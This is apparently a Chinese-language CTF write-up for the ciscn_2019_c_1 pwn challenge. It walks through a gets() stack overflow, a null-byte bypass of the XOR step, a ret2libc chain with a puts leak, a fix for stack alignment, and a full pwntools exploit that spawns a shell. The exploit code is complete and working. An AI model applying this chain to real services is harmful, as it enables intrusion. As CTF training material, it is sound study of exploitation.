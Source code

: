 # Ciscn_2019_c_1 Writeup


<!--more-->
## 1 漏洞点
先用`checksec`看一下保护情况
```
wlupus@VM-4-10-ubuntu:~/pwn$ checksec ciscn_2019_c_1
[*] '/home/wlupus/pwn/ciscn_2019_c_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
64位程序，只开了NX保护

用Ghidra查看程序流程
{{<image src="ghidra.png" caption="反编译">}}
{{<image src="reverse.png" caption="encrypt">}}
看到`encrypt`函数中利用了gets函数，有明显的溢出点，后续对输入进行了异或操作

对于异或操作，有两种绕过方案，第一种是提前将输入异或处理，这样函数中二次异或后就会恢复成原来的数据；第二种方案是利用`\0`截断，将payload的第一个字符替换为`\00`，这样`strlen`函数的返回值就会是0，也就不会进行后续的异或操作。两种方法在这个题目中都可以，不过个人更倾向第二种方法，因为第一种方法可能导致输入提前出现`\n`字符，导致`gets`函数提前结束。

对于第一种方案，编写了一个编解码函数
```py
def encode(payload):
    ret = b''
    over = False
    for i in range(len(payload)):
        current = payload[i]
        if current == 0:
            over = True
        if not over:
            if payload[i] < ord('a') or ord('z') < payload[i]:
                if payload[i] < ord('A') or ord('Z') < payload[i]:
                    if ord('/') < payload[i] and payload[i] < ord(':'):
                        current = current ^ 0xf
                else:
                    current = current ^ 0xe
            else:
                current = current ^ 0xd
        ret += chr(current).encode('latin-1')  # 注意这里一定要选择latin-1编码，
                                               # 如果使用utf-8编码会导致字符串长度发生改变
    return ret
```

编写一段poc验证思路
```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']


sh = process('./ciscn_2019_c_1')
# sh = remote('node4.buuoj.cn', 26578)

gdb.attach(sh)


def menu(id):
    sh.sendlineafter('choice!\n', str(id))


def main():
    menu(1)
    sh.recvuntil('encrypted\n')
    offset = 0x58
    return_addr = 0xdeadbeef
    payload = b'\0' + b'a' * (offset - 1) + p64(return_addr)
    sh.sendline(payload)
    sh.interactive()

if __name__ == "__main__":
    sys.exit(main())
```
{{<image src="poc.png" caption="return address被覆盖">}}
在encrypt函数的最后打上断点，查看return前的状态，可以看到return address被覆盖，验证栈溢出存在且可以被利用

## 2 利用方式
进一步查看程序，发现没有可用的后门函数，选择ret2libc来利用。首先泄漏`puts`函数的地址，用于计算`libc`的基址

构造payload为`b'\0' + b'a' * (offset - 1) + p64(pop_rdi) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(start)`

其中，`offset`通过查看程序汇编代码获得，`pop_rdi`通过ROPgadget获得
```
wlupus@VM-4-10-ubuntu:~/pwn$ ROPgadget --binary ciscn_2019_c_1 | grep "pop rdi"
0x0000000000400c83 : pop rdi ; ret
```
`puts_plt_addr`通过readelf和objdump获得
{{<image src="section.png" caption="readelf -WS binary_name">}}
{{<image src="plt.png" caption="objdump -dj.plt binary_name">}}
`puts_got_addr`通过计算得到，64位下计算方法为
$$PutsGotAddr = (PutsPltIdx - 1) * 8 + 24 + GOTBaseAddr$$
对应上图中，puts是plt表中的第二个函数，所以got_addr为$(2 - 1) * 8 + 24 + 0x602000 = 0x602020$

`start`为main函数的起始位置，可以通过readelf读取符号表获得
```
wlupus@VM-4-10-ubuntu:~/pwn$ readelf -Ws ciscn_2019_c_1 | grep main
     5: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.2.5 (2)
    60: 0000000000000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_2.2.5
    75: 0000000000400b28   245 FUNC    GLOBAL DEFAULT   14 main
```

当然，以上数据还可以通过pwntools库提供的方法来直接获取
```py
start = elf.sym['main']
# 0x400b28
puts_plt_addr = elf.plt['puts']
# 0x4006e0
puts_got_addr = elf.got['puts']
# 0x602000 + 0x20 = 0x602020
```

之后根据泄漏出来的puts函数真实地址的后三位，确定libc版本，获取其中的system函数地址以及`/bin/sh`字符串地址。由于我本地环境的libc在libc_database中没有，所以后文采用了手动查看的方法

```
# 通过ldd查看libc路径
wlupus@VM-4-10-ubuntu:~/pwn$ ldd ciscn_2019_c_1
	linux-vdso.so.1 (0x00007fff7c588000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f09898fa000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f0989ceb000)
```
```
# 获取libc符号表，查看puts的偏移
wlupus@VM-4-10-ubuntu:~/pwn$ readelf -Ws /lib/x86_64-linux-gnu/libc.so.6 | grep puts
   192: 0000000000080970   512 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   423: 0000000000080970   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   497: 0000000000126520  1240 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   680: 0000000000128430   750 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1143: 000000000007f1a0   396 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
  1680: 000000000007f1a0   396 FUNC    GLOBAL DEFAULT   13 _IO_fputs@@GLIBC_2.2.5
  2313: 000000000008a5e0   143 FUNC    WEAK   DEFAULT   13 fputs_unlocked@@GLIBC_2.2.5
```
```
# 查看system函数在libc中的偏移
wlupus@VM-4-10-ubuntu:~/pwn$ readelf -Ws /lib/x86_64-linux-gnu/libc.so.6 | grep system
   233: 0000000000159c50    99 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   609: 000000000004f420    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1406: 000000000004f420    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```
```
# 查看/bin/sh字符串在libc中的偏移
wlupus@VM-4-10-ubuntu:~/pwn$ strings -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 1b3d88 /bin/sh
```
综合上述内容，构造payload2为`b'\0' + b'a' * (offset - 1) + p64(pop_rdi) + p64(str_bin_sh) + p64(system_addr)`

## 3 栈平衡
但是按照上述方法运行exp脚本时，会发现无法拿到shell。用gdb查看程序，发现程序在一条`movaps`指令处发生了段错误。
{{<image src="movaps.png" caption="SIGSEGV">}}
经过查看资料，发现`movaps`指令需要16字节对齐，但是图中`$rsp + 0x40`的值明显不满足对齐。因此，需要让rsp加8来实现栈平衡。实现上，往栈里多写入一个ret指令即可。最终exp如下(exp中libc偏移均为个人环境偏移，需要根据个人和靶场环境来更改)：
```py
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']


sh = process('./ciscn_2019_c_1')
# sh = remote('node4.buuoj.cn', 26578)
elf = ELF('./ciscn_2019_c_1')

# gdb.attach(sh, '''
#     b *0x400ad6 
#     b *0x4009cc
# ''')


def menu(id):
    sh.sendlineafter('choice!\n', str(id))

def main():
    menu(1)
    sh.recvuntil('encrypted\n')
    offset = 0x58
    pop_rdi = 0x400c83
    start = elf.sym['main']
    puts_plt_addr = elf.plt['puts']
    # 0x4006e0
    puts_got_addr = elf.got['puts']
    # 0x602000 + 0x20 = 0x602020
    log.info(f"main: {hex(start)}\nplt: {hex(puts_plt_addr)}\ngot: {hex(puts_got_addr)}")
    payload = b'\0' + b'a' * (offset - 1) + p64(pop_rdi) + p64(puts_got_addr) + p64(puts_plt_addr) + p64(start)
    sh.sendline(payload)
    sh.recvuntil('\n\n')
    puts_addr = u64(sh.recvline()[:-1].ljust(8, b'\0'))
    log.info(f"puts address: {hex(puts_addr)}")

    # libc = LibcSearcher('puts', puts_addr)
    libc_base = puts_addr - 0x80970
    # get system addr
    # libc = puts_addr - 0x067970
    log.info(f"libc address: {hex(libc_base)}")
    system_addr = 0x4f420 + libc_base
    str_bin_sh =  0x1b3d88 + libc_base
    # second time
    menu(1)
    sh.recvuntil('encrypted\n')
    ret_gadget = 0x4006b9
    payload2 = b'\0' + b'a' * (offset - 1) + p64(ret_gadget) + p64(pop_rdi) + p64(str_bin_sh) + p64(system_addr)
    sh.sendline(payload2)
    sleep(1)
    sh.interactive()

if __name__ == "__main__":
    sys.exit(main())
```
